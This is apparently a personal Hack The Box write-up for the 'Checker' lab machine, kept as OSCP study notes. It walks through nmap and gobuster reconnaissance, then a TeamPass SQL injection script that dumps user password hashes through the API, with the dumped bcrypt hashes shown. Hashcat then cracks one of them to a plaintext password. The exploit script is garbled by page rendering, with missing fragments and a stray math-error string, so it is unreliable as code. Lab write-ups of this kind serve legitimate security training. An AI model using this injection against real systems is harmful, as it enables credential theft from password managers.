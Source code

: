 
- ping machine
    - `ping ###.###.###.###`
        
         `✘ kali@kali  ~/htb/cozyhosting  ping 10.10.11.56 PING 10.10.11.56 (10.10.11.56) 56(84) bytes of data. 64 bytes from 10.10.11.56: icmp_seq=1 ttl=63 time=44.5 ms 64 bytes from 10.10.11.56: icmp_seq=2 ttl=63 time=41.4 ms 64 bytes from 10.10.11.56: icmp_seq=3 ttl=63 time=41.8 ms ^C --- 10.10.11.56 ping statistics --- 3 packets transmitted, 3 received, 0% packet loss, time 2003ms rtt min/avg/max/mdev = 41.397/42.570/44.529/1.394 ms`
        
- nmap for open ports
    
    - `nmap -p- -T4 --open -Pn -vvv ###.###.###.### -oN nameNmap.txt`
    - or ''
        
         `kali@kali  ~/htb/cozyhosting  nmap -p- -T4 --open -Pn -vvv checker.htb -oN checkerNmap.txt   Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-22 14:13 EST Initiating SYN Stealth Scan at 14:13 Scanning checker.htb (10.10.11.56) [65535 ports] Discovered open port 80/tcp on 10.10.11.56 Discovered open port 22/tcp on 10.10.11.56 Discovered open port 8080/tcp on 10.10.11.56 Completed SYN Stealth Scan at 14:13, 13.46s elapsed (65535 total ports) Nmap scan report for checker.htb (10.10.11.56) Host is up, received user-set (0.14s latency). Scanned at 2025-02-22 14:13:35 EST for 13s Not shown: 65532 closed tcp ports (reset) PORT     STATE SERVICE    REASON 22/tcp   open  ssh        syn-ack ttl 63 80/tcp   open  http       syn-ack ttl 63 8080/tcp open  http-proxy syn-ack ttl 63  Read data files from: /usr/share/nmap Nmap done: 1 IP address (1 host up) scanned in 13.55 seconds            Raw packets sent: 65868 (2.898MB) | Rcvd: 65660 (2.626MB)`
        
- nmap for services and versions running on open ports
    
    - `nmap -p port#, port#, port# -sC -sV ###.###.###.### -oN nameServicesVersionsNmap`
        
         `kali@kali  ~/htb/cozyhosting  nmap -p 22,80,8080 -sC -sV checker.htb -oN checkerServicesVersionsNmap  Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-22 14:53 EST Nmap scan report for checker.htb (10.10.11.56) Host is up (0.070s latency).  PORT     STATE SERVICE VERSION 22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) | ssh-hostkey:  |   256 aa:54:07:41:98:b8:11:b0:78:45:f1:ca:8c:5a:94:2e (ECDSA) |_  256 8f:2b:f3:22:1e:74:3b:ee:8b:40:17:6c:6c:b1:93:9c (ED25519) 80/tcp   open  http    Apache httpd |_http-server-header: Apache |_http-title: 403 Forbidden 8080/tcp open  http    Apache httpd |_http-server-header: Apache |_http-title: 403 Forbidden Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 10.01 seconds`
        
- Gobuster to enumerate website if machine has 80 or 443
    
    - `gobuster dir -u http://checker.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -o nameGobuster.txt -t 10`
    - but we get 403 error - 403 Forbidden error means that the server understands a request but is denying access to the requested resource
    - ```bash ✘ kali@kali  ~/htb/checker  gobuster dir -u http://checker.htb -w /usr/share/seclists/Discovery/Web-Content/di rectory-list-lowercase-2.3-small.txt -n -o checkerGobuster.txt -t 10  
        ===============================================================  
        Gobuster v3.6  
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
        ===============================================================  
        [+] Url: http://checker.htb  
        [+] Method: GET  
        [+] Threads: 10  
        [+] Wordlist: /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt  
        [+] Negative Status codes: 404  
        [+] User Agent: gobuster/3.6  
        [+] No status: true  
        [+] Timeout: 10s  
        ===============================================================  
        Starting gobuster in directory enumeration mode  
        ===============================================================

Error: the server returns a status code that matches the provided options for non existing urls. http://checker.h tb/dc758432-1f2a-41aa-89c5-c1fa34001b93 => 403 (Length: 199). To continue please exclude the status code or the l ength

    `- excluding 403's gets gobuster to run but then throws 429's "Too many request" error. A server imposed rate limit that'w meant to slow down request rates.     ```bash  ✘ kali@kali  ~/htb/checker  gobuster dir -u http://checker.htb -w /usr/share/seclists/Discovery/Web-Content/di rectory-list-lowercase-2.3-small.txt -b 403 -o checkerGobuster.txt -t 10  =============================================================== Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url:                     http://checker.htb [+] Method:                  GET [+] Threads:                 10 [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt [+] Negative Status codes:   403 [+] User Agent:              gobuster/3.6 [+] Timeout:                 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== /legal                (Status: 429) [Size: 227] /30                   (Status: 429) [Size: 227] /xml                  (Status: 429) [Size: 227] /banners              (Status: 429) [Size: 227] /29                   (Status: 429) [Size: 227] /projects             (Status: 429) [Size: 227] /7                    (Status: 429) [Size: 227] /tools                (Status: 429) [Size: 227] /28                   (Status: 429) [Size: 227]`

- 2 websites exist at 80 and 8080
- ![Pasted image 20250222160046.png](https://theo2612.github.io/NewObsidian/Pasted%20image%2020250222160046.png)
- ![Pasted image 20250222160752.png](https://theo2612.github.io/NewObsidian/Pasted%20image%2020250222160752.png)

- Searching for teampass exploits reveals a SQL injection
    
    - https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612
    
    ```bash if [ "$#" -lt 1 ]; then echo "Usage: $0 " exit 1 fi
    

vulnerable_url="$1/api/index.php/authorize"

check=

vulnerable_url") if echo "$check" | grep -q "API usage is not allowed"; then echo "API feature is not enabled :-(" exit 1 fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'[¶](https://theo2612.github.io/NewObsidian/Certifications%20and%20courses/OSCP%20HTB%20boxes/checker/#htpasswd-bnbc-10-h4ck3d-tr-d-n "Permanent link")

arbitrary_hash='

10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() { inject="none' UNION SELECT id, '

1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin" data="{\"login\":\""Extra close brace or missing open brace(curl --silent --header "Content-Type: application/json" -X POST --data "

vulnerable_url" | jq -r '.token') echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key') }

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do username=\((exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT

(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT

username: (password" done

    ``- drop below POC into teampassExploit.sh     - `chmod +x teampassExploit.sh`     ```bash  kali@kali  ~/htb/checker  ./teampassExploit.sh http://checker.htb:8080                                         There are 2 users in the system:                                                                                  admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya                                               bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy``   

- Drop both hashes into a text file and remove admin and bob from the file ```bash kali@kali  ~/htb/checker  cat hashes.txt 10\)lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya 10\)yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy

    `- run the hashes through hashcat         - and we get bob's hash to crack - p/w cheerleader         - This is bob's password for teampass     ```bash      kali@kali  ~/htb/checker  hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt  hashcat (v6.2.6) starting  OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project] ============================================================================================================================================ * Device #1: cpu-penryn-QEMU Virtual CPU version 2.5+, 2822/5709 MB (1024 MB allocatable), 6MCU  Minimum password length supported by kernel: 0 Maximum password length supported by kernel: 72  Hashes: 2 digests; 2 unique digests, 2 unique salts Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates Rules: 1  Optimizers applied: * Zero-Byte  Watchdog: Hardware monitoring interface not found on your system. Watchdog: Temperature abort trigger disabled.  Host memory required for this attack: 0 MB  Dictionary cache hit: * Filename..: /usr/share/wordlists/rockyou.txt * Passwords.: 14344385 * Bytes.....: 139921507 * Keyspace..: 14344385  $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy:cheerleader [s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit =>` 

- bookstack login is under password side tab -

- search for exploits, RCEs, etc on service's versions running on those open ports
    
    - SearchSploit
    - Metaspolit
    - document
- Foothold - Look around and check things out for a second
    
    - search local directory
    - search root directory
    - sudo -l
    - look for exploitable binary's
        
        ## - `$ find / -perm /4000 2>/dev/null'[](https://theo2612.github.io/NewObsidian/Certifications%20and%20courses/OSCP%20HTB%20boxes/checker/#-find-perm-4000-2devnull "Permanent link")